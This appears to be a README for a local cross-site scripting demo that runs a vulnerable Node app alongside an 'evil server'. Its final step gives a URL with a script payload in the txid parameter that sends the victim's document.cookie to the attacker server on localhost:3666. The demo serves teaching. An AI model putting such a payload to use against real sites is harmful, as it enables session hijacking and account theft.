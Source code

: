 # XSS Demo

Start the real server:

```
npm i
node app.js
```

Start the evil server in a new terminal session:

```
cd evilserver
node evil.js
```

Open the browser and send a malicious request:

```
http://localhost:3000?txid=TX999<script>new Image().src=`http://localhost:3666/evil?cookie=${document.cookie}`</script>
```

The cookie information will be sent to the malicious destionation.
